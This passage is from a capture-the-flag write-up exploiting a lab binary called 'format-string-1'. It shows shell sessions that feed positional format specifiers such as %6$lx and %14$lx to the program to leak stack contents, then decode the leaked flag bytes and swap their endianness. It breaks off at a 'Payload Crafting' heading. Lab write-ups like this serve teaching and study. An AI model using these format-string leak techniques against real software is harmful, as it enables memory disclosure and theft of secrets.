 Locating `secret2`:

```bash
$ ./format-string-1
Give me your order and I'll read it back to you:
%5$s.%6$lx
Here's your order: %5$s.%6$lx
.4242424242424242
Bye!

$ cat secret-menu-item-2.txt | xxd
00000000: 4242 4242 4242 4242                      BBBBBBBB
```

> To be more rigorous, the flag is located at a distance of **64 bytes** from the address where it is allocated secret1 on the stack.

Locatinh `flag` after secret2:

```bash
$ # The secret1 variable takes up 64 bytes (i.e. 8 qword or 8 %lx).
$ # => secret1 index + 8. 
$ ./format-string-1
Give me your order and I'll read it back to you:
%5$s.%6$lx.%14$lx
Here's your order: %5$s.%6$lx.%14$lx
.4242424242424242.3168747b67616c66
Bye!

$ cat flag.txt | xxd -p     # hexadecimal flag
666c61677b746831735f31735f6170337a7a317d

$ echo "3168747b67616c66" | xxd -p -r | xxd -p -c1 | tac | tr -d '\n'   # swap endianness
666c61677b746831
```

The leaked data represents **the least significant 8 bytes** of flag as shown above.

Check `secret2` position:

```bash
$ # The same reasoning made for flag
$ ./format-string-1
Give me your order and I'll read it back to you:
%5$s.%6$lx.%14$lx.%22$lx
Here's your order: %5$s.%6$lx.%14$lx.%22$lx
.4242424242424242.3168747b67616c66.4141414141414141
Bye!

$ cat secret-menu-item-1.txt | xxd
00000000: 4141 4141 4141 4141                      AAAAAAAA
```

## Payload Crafting
